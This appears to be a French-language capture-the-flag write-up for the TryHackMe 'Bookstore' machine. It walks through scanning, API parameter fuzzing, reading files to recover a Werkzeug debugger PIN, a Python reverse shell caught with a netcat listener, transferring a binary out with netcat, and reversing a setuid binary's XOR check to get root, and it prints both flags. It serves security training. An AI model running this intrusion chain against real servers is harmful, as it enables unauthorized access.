






# Bookstore #

## Task 1 Bookstore ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.59.185 bookstore.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A  bookstore.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 22:19 CEST
Nmap scan report for bookstore.thm (10.10.59.185)
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/11%OT=22%CT=1%CU=41441%PV=Y%DS=2%DC=T%G=Y%TM=613D0F9
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   34.54 ms 10.9.0.1
2   34.71 ms bookstore.thm (10.10.59.185)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.77 seconds

```

D'après nmap on a plusieurs services qui sont :  
Le service SSH sur le port 22.   
Le service HTTP sur le port 80 et 5000.   

On voit sur le port 5000 le site web possède un fichier robot.txt avec le contenu /api 



avec le lien api on nous montre comment utiliser l'api.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://bookstore.thm:5000/ -w /usr/share/dirb/wordlists/common.txt -q
/api                  (Status: 200) [Size: 825]
/console              (Status: 200) [Size: 1985]
/robots.txt           (Status: 200) [Size: 45]  
```

On trouve un nouveau lien qui est console.   

 

On tombe sur une page qui nous demande un code PIN.   

```bash
tim@kali:~/Bureau/wfuzz -u http://bookstore.thm:5000/api/v2/resources/books?FUZZ=fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404-medium.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bookstore.thm:5000/api/v2/resources/books?FUZZ=fuzz
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000486:   200        1 L      1 W        3 Ch        "author"                                                                                                                                                                     
000000529:   200        1 L      1 W        3 Ch        "id"                                                                                                                                                                         
000011548:   200        1 L      1 W        3 Ch        "published"      
```

Avec la version 2 de l'api on ne trouve rien.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -u http://bookstore.thm:5000/api/v1/resources/books?FUZZ=fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bookstore.thm:5000/api/v1/resources/books?FUZZ=fuzz
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000395:   500        356 L    1747 W     23076 Ch    "show"                                                                                                                                                                       
000000486:   200        1 L      1 W        3 Ch        "author"                                                                                                                                                                     
000000529:   200        1 L      1 W        3 Ch        "id"                                                                                                                                                                         
000011548:   200        1 L      1 W        3 Ch        "published"                          
```

Avec la version 1 on trouve le paramètre show.   

 

La commande show nous permet de voir les fichiers dans le répertoire courant on pourrait lire le premier flag.  
On lit l'historique de bash qui se trouve dans .bash_history.   
On trouve un code pin qui est 123-321-135.  

 

On rentre le code pin. 

 

On tombe sur un interpréteur python.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234, car on va initier un reverse shell qui communiquera avec le port 1234.  

 

Dans la console on met un reverse shell en python.  

**User flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.12.248] 48630
/bin/sh: 0: can't access tty; job control turned off
$ ls -al
total 80
drwxr-xr-x 5 sid  sid   4096 Oct 20  2020 .
drwxr-xr-x 3 root root  4096 Oct 20  2020 ..
-r--r--r-- 1 sid  sid   4635 Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid    160 Oct 14  2020 api-up.sh
-r--r----- 1 sid  sid    116 Sep 12 14:08 .bash_history
-rw-r--r-- 1 sid  sid    220 Oct 20  2020 .bash_logout
-rw-r--r-- 1 sid  sid   3771 Oct 20  2020 .bashrc
-rw-rw-r-- 1 sid  sid  16384 Oct 19  2020 books.db
drwx------ 2 sid  sid   4096 Oct 20  2020 .cache
drwx------ 3 sid  sid   4096 Oct 20  2020 .gnupg
drwxrwxr-x 3 sid  sid   4096 Oct 20  2020 .local
-rw-r--r-- 1 sid  sid    807 Oct 20  2020 .profile
-rwsrwsr-x 1 root sid   8488 Oct 20  2020 try-harder
-r--r----- 1 sid  sid     33 Oct 15  2020 user.txt
$ cat user.txt
4ea65eb80ed441adb68246ddf7b964ab
```

On obtient un shell.  
On lit le fichier user.txt et on a notre flag.   
Le flag est : 4ea65eb80ed441adb68246ddf7b964ab  

**Root flag**

On remarque dans les fichiers, le fichier try-harder est setuid.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 4444 > try-harder 
-------
$ nc 10.9.228.66 4444 < try-harder
```

On transfère try-harder pour analyse.  

```cpp
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

On décompile le fichier avec ghidra.   

```cpp
local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
```

Le programme demmande un nombre à l'utilisateur vérifie par des xor (ou exclusif) si le réusltat est bon.  
0x5dcd21f4 = saisie xor 0x1116 xor 5db3.   

La fonction ou exclusif est une fonction reversible.  

```
tim@kali:~/Bureau/tryhackme/write-up$ python3
Python 3.8.0 (default, Sep  1 2021, 20:05:29) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5dcd21f4^0x1116^0x5db3
1573743953
```

On calcul la réponse.  
La réponse est 1573743953.    

```bash
$ ./try-harder
1573743953
id
uid=0(root) gid=1000(sid) groups=1000(sid)
cat /root/root.txt
e29b05fba5b2a7e69c24a450893158e3
```

On rentre la réponse est on obtient un shell avec les droits root.   
On lit le fichier root.txt.   
La réponse est : e29b05fba5b2a7e69c24a450893158e3    


